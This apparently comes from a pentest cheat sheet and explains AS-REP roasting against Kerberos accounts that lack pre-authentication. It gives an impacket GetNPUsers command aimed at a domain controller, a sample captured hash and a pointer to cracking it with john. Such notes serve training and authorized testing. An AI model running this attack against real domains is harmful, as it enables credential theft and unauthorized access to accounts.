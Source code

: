 # Windows vulnerability {-}

## ASREPRoasing on Kerberos {-}

If the Kerberos pre-authentication has been disabled for an account, that means that it is vulnerable to ASREPRoasting.
As soon as we have a username, we can use the GetNPUsers script from impacket to retrieve it's password Hash

```bash
GetNPUsers.py domain/username -request -no-pass -dc-ip 10.10.10.11

#OUTPUT
[*] Getting TGT for username
$krb5asrep$23$username@domain:00c4e7b0ce1ad503425a4b0161021fe5$8d8d475c06d1fb191d431055f3dc5cf63e22ebcbb6cdf4a7cb122e
8f16374f221327e13be255eb60df449969b864abf3322c2c69c16738b9cbbd47ff1a67727656d7c7581c0df55280d19d4553c92fe86fb313fd7fb
843bd2e7796183d005edf241d9c89917239f29834ce6595f7359911e427b21a16154e552536dd1e1c66280e240ee9ea6d9d7ca5c462c5abf9a57ca
46db4af7c4a43b4261f5560257c58e6e1cc51ebe742dbeb903a7379ae7e2db8882018922feed8ae18ee799621de5f64bf0c10284e66a5017a2f6a13
b0ff132e99e715ecded126bdbd6347dd93a0cfff96a586fb5682ce5e04b2960b67401854
```

You can then copy the TGT in a file and try to crack it with john


